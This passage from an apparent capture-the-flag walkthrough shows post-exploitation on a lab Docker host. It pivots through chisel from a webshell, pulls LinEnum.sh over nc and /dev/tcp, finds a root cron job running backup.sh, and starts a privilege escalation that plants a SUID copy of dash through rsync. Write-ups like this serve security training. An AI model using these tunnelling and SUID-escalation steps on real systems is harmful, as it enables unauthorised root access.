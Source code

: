 It seems we can use rysnc. Let’s check GTFObins if rsync can be used to escalate our privilege to root. We also need to check if [backup.sh](http://backup.sh) is executed by root. To be thorough, let’s run [LinEnum.s](http://LinEnum.sj)h on it. Again, create another port in chisel on the webshell

```bash
pivot:
/tmp/chisel client 10.10.14.132:8110 9111:127.0.0.1:7002

attack:
nc -lnvp 7002 < /home/billy/tools/LinEnum.sh

web:
cat < /dev/tcp/172.19.0.4/9111 > /tmp/linenum.sh
```

Now we can run it

```bash
chmod +x linenum.sh
bash linenum.sh

result:
Again we are in a docker envrionment. We find we have permission to read the backup script in cron jobs:
/etc/cron.d:                                                                                                                                              
total 16                                                                                                                                                  
drwxr-xr-x 1 root root 4096 Jul 15  2018 .                                                                                                                
drwxr-xr-x 1 root root 4096 Jul 15  2018 ..                                                                                                               
-rw-r--r-- 1 root root  102 Jun 11  2015 .placeholder                                                                                                     
-rw-r--r-- 1 root root   38 May  4  2018 backup 
```

Let’s read it

```bash
*/3 * * * * root sh /backup/backup.sh

#backup.sh is executed by root every 3 minutes
```

Now, we now the [backup.sh](http://backup.sh) script gets executed every 3 minutes, the script syncs rdb files from directory /var/www/html/f187a0ec71ce99642e4f0afbd441a68b. We can force it to execute a script as root e.g. reverse shell?

First create the script as a rdb file on attack host:

```bash
#!/bin/sh
cp /bin/dash /tmp/priv_esc
chmod 4755 /tmp/priv_esc

#we use dash as we can set this binary with SUID.
```
